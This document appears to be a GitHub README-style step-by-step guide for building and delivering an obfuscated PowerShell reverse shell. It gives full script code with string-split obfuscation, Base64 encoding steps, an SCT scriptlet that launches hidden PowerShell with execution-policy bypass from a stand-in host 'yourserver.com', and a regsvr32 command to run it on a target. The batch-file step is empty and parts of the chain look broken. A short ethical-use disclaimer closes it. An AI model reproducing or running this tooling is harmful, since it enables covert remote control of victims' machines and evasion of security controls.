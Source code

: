 # Step-by-Step Simulation Guide Note: Files available for adapting in repository.

1. Create the Reverse Shell PowerShell Script
Create a file named reverse_shell.ps1 with the following content:

param (
    [string]$ip,
    [int]$port
)

# Obfuscated variable names
$A = 'Get'+'Stream'
$C = [System.Text.Encoding]::'ASCII'
$b = 0..65535 | % {0}
$Q = 'System.Net.Sockets.TCPClient'
$w = 'Re'+'ad'
$O = 'Wr'+'ite'
$F = 'System.Text.ASCIIEncoding'

$client = New-Object $Q($ip, $port)
$stream = $client.$A()
while (($i = $stream.$w($b, 0, $b.Length)) -ne 0) {
    $d = (New-Object -TypeName $F).GetString($b, 0, $i)
    $S = (iex $d 2>&1 | Out-String)
    $R = $S + "PS " + (pwd).Path + "> "
    $f = $C.GetBytes($R)
    $stream.$O($f, 0, $f.Length)
    $stream.Flush()
}
$client.Close()



2. Encode the Script to Base64
Run the following PowerShell commands to encode the script:

$script = Get-Content -Path .\reverse_shell.ps1 -Raw
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encoded = [Convert]::ToBase64String($bytes)
$encoded

# Copy the resulting Base64 string.

3. Create the Batch File
Create a file named run_reverse_shell.bat with the following content. Replace <Base64_encoded_string> with the Base64 string you copied:

4. Host the Files on a Web Server
Upload run_reverse_shell.bat to your web server.
Ensure it is accessible, e.g., http://yourserver.com/run_reverse_shell.bat.

5. Create the SCT File
Create a file named reverse_shell.sct with the following content. Replace http://yourserver.com/run_reverse_shell.bat with the actual URL of your hosted batch file, and replace attacker_ip and attacker_port with your attacker's IP and port:
<scriptlet>
  <registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("cmd.exe /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File http://yourserver.com/run_reverse_shell.bat attacker_ip attacker_port");
      ]]>
    </script>
  </registration>
</scriptlet>

Upload reverse_shell.sct to your web server.
Ensure it is accessible, e.g., http://yourserver.com/reverse_shell.sct.

6. Execute the SCT File using regsvr32
On the target machine, run the following command to execute the SCT file:

regsvr32 /s /i:http://yourserver.com/reverse_shell.sct scrobj.dll

7. Establish the Reverse Shell Connection
When the SCT file is executed, it will download and run the batch file, which will decode and execute the PowerShell script to establish a reverse shell connection to the specified IP and port.


# Important Notes:
Ethical Use: Ensure you have explicit permission to test systems with this script. Unauthorised use is illegal and unethical.
Controlled Environment: Use a controlled environment for testing.
Troubleshooting: Keep a non-obfuscated version of the scripts for troubleshooting and maintenance.
